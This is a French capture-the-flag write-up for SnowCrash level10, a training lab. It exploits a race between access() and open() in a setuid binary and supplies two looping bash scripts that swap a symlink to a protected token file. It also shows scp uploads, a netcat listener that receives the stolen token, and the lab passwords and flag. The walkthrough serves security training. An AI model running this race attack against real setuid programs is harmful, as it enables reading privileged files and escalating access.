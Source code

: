 # Level10

> login:password -> *`level10:s5cAJpM8ev6XHw998pRWG728z`*
```
:~$ su level10
Password:s5cAJpM8ev6XHw998pRWG728z
```
---

```
:~$ pwd
/home/user/level10
```

```
:~$ ls -la
...
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
-rw-------  1 flag10  flag10     26 Mar  5  2016 token
...
```

Le Home contient un binaire et un fichier token :

```
:~$ ./level10
./level10 file host
  sends file to host if you have access to it

:~$ ./level10 token localhost
You don't have access to token

:~$ ./level10 .profile localhost
Connecting to localhost:6969 .. Unable to connect to host localhost
```

L'usage nous indique que le binaire envoi un fichier, mais uniquement si on possède les droits sur ce dernier.
En regardant du côté de la commande `strings level10` :

```
...
Connecting to %s:6969 ..
...
open
...
access
...
```

On remarque que le programme se connecte sur le port `:6969` et utilise `open` et `access`.\
Nous pouvons dés lors, profiter d'une faille d'access afin d'y récupérer le token (On profite du temps qu'il prends entre le check des droits et l'ouverture du fichier. man access).\
Pour ce faire nous allons utiliser 2 scripts qui utilise la technique du 'spam' :

- 1er script - Qui va essayer d'envoyer le fichier /tmp/link sur le localhost (ici `192.168.56.101`)
```
#!/bin/bash
while true;
do
	~/level10 /tmp/link 192.168.56.101
done
```

- 2e script - Qui va supprimer le fichier /tmp/link sur le localhost, le créer et y faire un lien symbolique avec le token présent sur le Home.
```
#!/bin/bash
while true;
do
	rm -f /tmp/link
	touch /tmp/link
	ln -fs ~/token /tmp/link
done
```

> Il est possible d'envoyer nos scripts directement dans notre user /tmp, grâce à la commande suivante :
> scp -P 4242 [file_name] level10@192.168.56.101:/tmp

```
:~$ pwd
[...]/snowcrash/level10/Ressources

:~$ ls
README.md  script1.sh script2.sh

:~$ scp -P 4242 script1.sh level10@192.168.56.101:/tmp
[...]
level10@192.168.56.101's password:
script1.sh // 100%   67   173.1KB/s   00:00

:~$ scp -P 4242 script2.sh level10@192.168.56.101:/tmp
[...]
level10@192.168.56.101's password:
script2.sh // 100%   67   173.1KB/s   00:00
```

Une fois les scripts téléchargés et lancés, il ne nous reste plus qu'à écouter les transfert avec la commande netcat `nc -lk` (`l` pour écouter & `k` pour conserver la connexion) sur le port de connexion `:6969`, pour obtenir le token.

```
:~$ nc -lk 6969
...
.*( )*.
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
^C

```

Il nous suffit maintenant de nous connecter sur l'user `flag10` avec le résultat obtenu puis de lancer un `getflag`

```
:~$ su flag10
Password:woupa2yuojeeaaed06riuj63c
Don't forget to launch getflag !

:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

Le flag nous permet de se connecter au level11
`level11:feulo4b72j7edeahuete3no7c`